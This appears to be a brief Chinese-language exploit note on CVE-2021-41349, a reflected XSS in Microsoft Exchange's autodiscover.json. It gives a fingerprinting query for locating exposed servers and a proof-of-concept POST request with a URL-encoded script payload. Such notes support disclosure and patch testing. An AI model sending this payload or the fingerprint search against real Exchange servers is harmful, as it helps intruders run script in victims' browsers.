

# Microsoft Exchange autodiscover.json 反射型XSS CVE-2021-41349

## 漏洞描述

Microsoft Exchange  autodiscover.json 文件中存在反射型XSS，由于其中过滤不足而导致

## 漏洞影响

<a-checkbox checked>Microsoft Exchange</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1768726119"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```python
POST /autodiscover/autodiscover.json

%3Cscript%3Ealert%28document.domain%29%3B+a=%22%3C%2Fscript%3E&x=1
```

